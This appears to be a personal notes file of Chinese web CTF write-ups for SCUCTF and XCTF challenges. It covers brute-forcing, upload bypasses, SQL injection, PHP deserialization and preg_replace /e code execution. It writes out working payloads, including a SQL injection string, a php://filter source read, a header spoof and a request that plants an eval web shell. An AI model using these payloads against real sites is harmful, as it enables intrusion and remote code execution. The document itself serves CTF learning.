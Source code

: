 # Note
	
## SCUCTF:
	1. 一款船细的外部题目 200
	无验证码，脚本爆破，有上传点，php上传点绕过
	
	2. 一道入门的代码审计 170
	读源码，md5弱类型绕过，file_put_contents
	备注：// @$_GET['filename']
	
## xctf平台
	```TODO
	web/JS逆向	https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4810	
		ref:	https://st98.github.io/diary/posts/2017-10-25-hacklu-ctf-2017.html```
		
	1. XCTF 4th-CyberEarth
	 id可能有问题,扔到bp里爆破,2333的时候出flag.私以为这种工具流还挺好用...
	 
	 
	2. XCTF 4th-QCTF-2018 NewsCenter
	post型的注入,扔到sqlmap里,--data 'search'跑表, 看infomation_schema 最后有个fl4g列,完事儿
	
	
	3. csaw-ctf-2016-quals
	看到about页面有使用到git, 那么试试有没有git泄露呢?访问/.git/目录,存在泄露,githack工具走起
	审计index.php的源代码,最终采用**代码注入**搞定,
	
	
	4. tinyctf-2014-NaNNaNNaNNaN-Batman
	js代码,有乱码,需要整理一下,写成规范的函数形式,审计正则匹配,看到有长度限制,删除冗余部分,F12的console里调试一下,提交就可以了(其实可以把条件删除2333)


	5. unserialize3
	反序列化, 解出的第一题,orz
	__wakeup()函数是当php进行反序列化操作（unserialize）的时候自动调用该函数
	**__wakeup()方法的绕过:**一个字符串或对象被序列化后，如果其属性被修改，则不会执行__wakeup()函数,在这里就用来可以绕过exit()
	O:5:"test2":1:{s:4:"t"}
	O:5:"Test2":1:{s:4:"test";s:18:"<?php%20phpinfo();?>";}
	ref:	https://www.jianshu.com/p/be6de8511cb9
	ref:	https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/
	
	
	6. RCTF-2015-upload
	你以为是上传,其实是注入...二次注入,此题心态爆炸,搞明白是怎么fuzzing的(8明白)
	第二种方法:	a'+conv(hex((selselectect mid((selselectect database()),1,6))),16,10)+'a.jpg
	主要涉及conv函数,是convert-进制转换的意思
	ref:	http://morecoder.com/article/1227148.html
	ref:	https://blog.csdn.net/niexinming/article/details/49888893


	7. XCTF 4th-CyberEarth  ics-04 
	```工控云管理系统新添加的登录和注册页面存在漏洞，请找出flag。```
	找到忘记密码界面,丢到bp里爆用户名,得到俩很可疑的	'or''='    admin'or''=' (admin是我刚刚注册的)
	很明显是注入了, 看看有没有注入导致的万能密码. 加入bp爆一下密码,全部失败.
	找了下wp, 结果是在忘记密码输入用户名的界面存在sqli注入.


	8. **XCTF 4th-CyberEarth  ics-05**
		1. 进到index.php里面, 发现page参数可更改,而且会显示在页面中,看题意跟跟xss应该没关系
		看wp说是*php伪协议*,即 php://   ,可用filter查看源码
		/index.php?page=php://filter/read=convert.base64-encode/resource=
		通读源码,大概意思:当x-forwarded-for为环回地址127时,进入管理页面.果断改包绕过
		好了,然后是一个preg_replace正则替换, 想到/e 可以rce, 那么开动:
		```在preg_replace(src,*dst*,STR)中, 如果src中存在 /e 修正符(如/abc/e  不明白为啥要有'/'的同学
		可以去看看php里的正则用法), 把其当做php执行, 我们就在dst 参数里放要执行的PHP 代码```
		
		2. 有了rce, 下一步是找flag, 写入一句话, 菜刀连接之后,看到根目录/下面有个奇怪的文件夹,查看源码,稳健
		
		3. *payload*
		-查看源码	/index.php?page=php://filter/read=convert.base64-encode/resource=index.php
		-	X-Forwarded-For:127.0.0.1
		-	/index.php?pat=/uncle/e&rep=phpinfo()&sub=uncleabc 
		-写入一句话	/index.php?pat=/uncle/e&rep=fputs(fopen(index.php,w),%3C?php%20eval($_POST%5B%5Bpass%5D%5D)?%3E);0&sub=uncleabc
		
		
		
		
		
